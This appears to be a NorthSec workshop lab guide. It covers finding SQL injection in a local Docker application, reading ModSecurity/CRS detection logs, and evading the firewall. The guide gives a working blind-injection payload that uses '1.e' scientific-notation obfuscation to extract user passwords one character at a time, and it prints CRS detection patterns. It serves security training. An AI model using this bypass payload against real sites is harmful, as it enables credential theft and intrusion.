


# SQL Syntax Lab

## Launching the instance

```
$ cd 03-sqli
$ docker-compose up
```

Open [http://localhost](http://localhost) in a browser to confirm that everything is running.


Initialize the database by fetching `db_reset.php`.




[Live instance (only for NorthSec)](http://nsec2022.xss.lol/){ .md-button .md-button--primary target=_blank}

## Finding the SQL injections

There are two SQL injection vulnerabilities in the applications.

??? success "Answer"

    - `genre` parameter from the `index.php` page.

    - `id` parameter from the `movie_detail.php` page.


    Detection can be done
    
    ```
    GET /?genre=actio'%20'n HTTP/1.1
    Host: localhost
    [...]
    ```

## ModSecurity

As soon as you will test the parameters with SQL keywords, modsecurity return a Forbidden page.



Does the `union` and `select` are systematically blocked?

??? success "Answer"

    "Union" and "select" are english words that are too common to always be blocked.

    You can confirm this behavior by requesting `index.php?genre=union`
    
    ModSecurity is a combination of RegEx and context analysis by libinjection. Looking at the log you will be able to see which rule is triggered.


## Log Troubleshooting

The log is pretty verbose because they attach complete requests.

Here is a Regex rule that matched:
```
ModSecurity: Warning. Pattern match \"(?i:(?:[\\\\\\\\\"'`](?:;?\\\\\\\\\\\\\\\\s*?(?:having|select|union)\\\\\\\\\\\\\\\\b\\\\\\\\\\\\\\\\s*?[^\\\\\\\\\\\\\\\\s]|\\\\\\\\\\\\\\\\s*?!\\\\\\\\\\\\\\\\s*?[\\\\\\\\\"'`\\\\\\\\\\\\\\\\w])|(?:c(?:onnection_id|urrent_user)|database)\\\\\\\\\\\\\\\\s*?\\\\\\\\\\\\\\\\([^\\\\\\\\\\\\\\\\)]*?|u(?:nion(?:[\\\\\\\\\\\\\\\\w(\\\\\\\\\\\\\\\\s]*?select| select @)|ser\\\\\\\\\\\\\\\\s*?\\\\\\\\\\\\\\\\([^\\\\\\\\\\\\\\\\)]*?)|s(?:chema\\\\\\\\\\\\\\\\s*?\\\\\\\\\\\\\\\\([^\\\\\\\\\\\\\\\\)]*?|elect.*?\\\\\\\\\\\\\\\\w?user\\\\\\\\\\\\\\\\()|in ...\" at ARGS:genre. 
[file \"/etc/modsecurity.d/owasp-crs/rules/REQUEST-942-APPLICATION-ATTACK-SQLI.conf\"] 
[line \"183\"] [id \"942190\"]
```

Here libinjection
```
[id \"942100\"] 
[msg \"SQL Injection Attack Detected via libinjection\"] 
[data \"Matched Data: s&(s) found within ARGS:genre: union' or ('')='\"] 
[severity \"CRITICAL\"]
```

Can you use the scientific notation to confuse modsecurity? If you want the solution, read the next section.

## Exploitation

Here is the general syntax necessary to exfiltrate varchar values from the database. 

=== ":octicons-check-circle-fill-16: Obfuscated query"

    With the `1.e` notation expression that is ignored by the DBMS.

    ```sql
    or 1.e(ascii 1.e(substring(1.e(select password from users limit 1 1.e,1 1.e) 1.e,1 1.e,1 1.e)1.e)1.e) = 70 or'1'='2
    ```

=== ":octicons-skip-16: Actual query"

    This is how the DBMS will interpret the query.

    ```sql
    or (ascii (substring((select password from users limit 1,1) ,1 ,1 ))) = 70 or'1'='2
    ```

> With this SQL syntax, we are targeting the field `password` from the table `users`. The function substring is used to extract one character at the time and compare it to an ascii value (`70` in the example).

## Scripting

Once you have a working request that is producing an oracle (binary response based on the matching content). It is possible to script an attack to extract the complete content of any database tables.

